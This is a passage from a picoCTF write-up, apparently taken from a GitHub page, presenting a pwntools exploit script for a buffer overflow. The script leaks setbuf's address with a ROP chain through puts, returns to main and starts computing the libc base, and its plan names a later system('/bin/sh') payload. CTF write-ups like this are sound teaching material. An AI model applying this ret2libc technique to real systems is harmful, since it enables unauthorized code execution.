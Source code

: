 ---- 

### 9. Optional
You can choose to connect to the remote challenge server instead of running it locally. In our case of picoCTF challenge:

```bash
p = remote("mercury.picoctf.net", 62289) 
```
---

## Full exploit script

```python
#!/usr/bin/env python3

from pwn import *  

# Local debugging
# p = process("./vuln")
# gdb.attach(p)

# Remote connection for CTF challenge
p = remote("mercury.picoctf.net", 62289)

offset = 136
junk = b"A" * offset  # Padding to overflow up to return address

"""
Plan of attack:
* Leak the address of setbuf using puts
* Use ROP to control rdi and pass setbuf@got as argument to puts
* Return to main to allow a second payload
* Calculate base address of libc
* Build second payload with system("/bin/sh")
"""

# ROP gadgets and addresses (from Ghidra or ROPgadget)
pop_rdi = 0x400913
setbuf_at_got = 0x601028
puts_at_plt = 0x400540
back_to_main = 0x400771

# First payload: leak setbuf address
payload = [
    junk,
    p64(pop_rdi),
    p64(setbuf_at_got),
    p64(puts_at_plt),
    p64(back_to_main),
]

payload = b"".join(payload)
p.sendline(payload)

# Skip irrelevant lines and grab the leak
p.recvline()
p.recvline()
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")

# Calculate libc base
setbuf_offset = 0x88540
base_address_of_libc = leak - setbuf_offset
```
